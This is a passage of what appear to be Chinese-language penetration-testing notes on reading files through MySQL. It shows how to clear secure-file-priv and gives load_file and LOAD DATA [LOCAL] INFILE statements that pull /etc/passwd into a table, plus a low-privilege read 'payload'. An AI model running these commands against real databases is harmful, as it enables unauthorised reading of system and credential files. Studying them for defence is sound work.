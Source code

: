 修改： 

- - 通过修改my.ini文件，添加：`secure-file-priv=`
  - 启动项添加参数：`mysqld.exe --secure-file-priv=`

#### 读

Mysql读取文件通常使用load_file函数，语法如下： 

```sql
select load_file(file_path);
```

第二种读文件的方法： 

```sql
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取服务端文件
```

第三种： 

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取客户端文件
```

限制： 

- - 前两种需要`secure-file-priv`无值或为有利目录。
  - 都需要知道要读取的文件所在的绝对路径。
  - 要读取的文件大小必须小于`max_allowed_packet`所设置的值

#### 低权限读取文件

5.5.53`secure-file-priv=NULL`读文件payload，mysql8测试失败，其他版本自测。 

```sql
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://1.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

#### Mysql连接数据库时可读取文件

